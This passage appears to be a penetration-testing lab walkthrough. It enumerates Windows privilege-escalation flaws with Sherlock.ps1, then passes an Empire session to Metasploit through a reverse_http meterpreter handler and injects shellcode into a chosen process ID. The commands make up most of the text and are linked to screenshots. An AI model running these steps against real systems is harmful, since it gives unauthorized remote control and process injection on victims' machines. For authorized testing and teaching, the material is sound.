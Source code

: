 run Sherlock.ps1

    scriptcmd Find-AllVulns

*Find-AllVulns is parameter inside the Sherlock.ps1*

![](https://paper-attachments.dropbox.com/s_28C056C16ADAFDB58ADAF02C1C99B3F8C406B0B274495B5ACDDDA71371767BCA_1556870807066_image.png)

(results)

![](https://paper-attachments.dropbox.com/s_28C056C16ADAFDB58ADAF02C1C99B3F8C406B0B274495B5ACDDDA71371767BCA_1556870830870_image.png)

## pass an object from Empire to Metasploit
Stated at this point this might get a bit tricky…
Create a new meterpreter listener within Empire:

    uselistener meterpreter

![](https://paper-attachments.dropbox.com/s_28C056C16ADAFDB58ADAF02C1C99B3F8C406B0B274495B5ACDDDA71371767BCA_1556870985491_image.png)

*add the Host and Port and execute.*
go back and interact with previous session

![](https://paper-attachments.dropbox.com/s_28C056C16ADAFDB58ADAF02C1C99B3F8C406B0B274495B5ACDDDA71371767BCA_1556871059955_image.png)

Re-setup Metasploit
ctrl+c to terminate 

![](https://paper-attachments.dropbox.com/s_28C056C16ADAFDB58ADAF02C1C99B3F8C406B0B274495B5ACDDDA71371767BCA_1556871139171_image.png)

setup exploit handler

    use exploit/multi/handler
    set paytload windows/x64/meterpreter/reverse_http
    show options

![](https://paper-attachments.dropbox.com/s_28C056C16ADAFDB58ADAF02C1C99B3F8C406B0B274495B5ACDDDA71371767BCA_1556871209463_image.png)

set LHOST and LPORT

![](https://paper-attachments.dropbox.com/s_28C056C16ADAFDB58ADAF02C1C99B3F8C406B0B274495B5ACDDDA71371767BCA_1556871252950_image.png)

back on Empire issue a ps command to list processes

    ps

![](https://paper-attachments.dropbox.com/s_28C056C16ADAFDB58ADAF02C1C99B3F8C406B0B274495B5ACDDDA71371767BCA_1556871327784_image.png)

*pick a process running as a particular user level.*

head back to main and injectshellcode

    injectshellcode meterpreter 1824

*pid of the process we want to inject.*
